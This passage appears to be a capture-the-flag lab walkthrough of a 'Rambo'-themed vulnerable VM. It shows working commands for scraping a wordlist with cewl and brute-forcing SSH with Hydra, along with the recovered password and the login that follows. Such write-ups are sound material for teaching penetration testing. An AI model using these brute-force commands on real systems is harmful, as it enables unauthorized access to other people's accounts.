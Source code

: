```
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Exploitation

Upon accessing the web server at port 80, the homepage prompted the user to review the source code for further instructions. The source code contained HTML comments directing the user to visit the "IP/rambo.html" page.

The `rambo.html` page suggested running Nmap and Nikto scans. The Nikto scan revealed that the `robots.txt` file was accessible, which contained a reference to a new directory: `/johnnyrambo`.

The `robots.txt` file also suggested using the following command to scrape a wordlist:

```
cewl -w words.txt -d 1 -m 5 http://10.0.2.4/johnnyrambo/
```

Next, I navigated to `/johnnyrambo/ssh.html` for further steps. To brute-force the SSH password for the user `johnny`, I used Hydra:

```
$ hydra -l johnny -P words.txt -v 10.0.2.4 ssh -s 60022 -t 4
```

**Hydra Output:**
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
...
[60022][ssh] host: 10.0.2.4   login: johnny   password: Vietnam
```

The password for the user `johnny` was successfully found to be `Vietnam`. I accessed the SSH service using the following command:

```
$ ssh johnny@10.0.2.4 -p 60022
```

### Post-Exploitation

Once logged in as `johnny`, I accessed the `README.txt` file, which contained the following message:

```
Nice job! You're cruising along nicely!

When we find ourselves on a web server, we want to check out the web directory.

In case you haven't figured it out, this server is running Nginx. For this particular setup, I've left things at the default. If we look in the configuration file, we can view the location of the web directory:

cat /etc/nginx/sites-enabled/default

That's kind of noisy in the output. We can clean it up with the following:

cat /etc/nginx/sites-enabled/default | grep -v "#"

-v is an invert match and will essentially remove all of the comment (#) lines.

When we clean it up, the line starting with "root" points to the web directory.

Move into the web directory and see if there are any files to read...
```
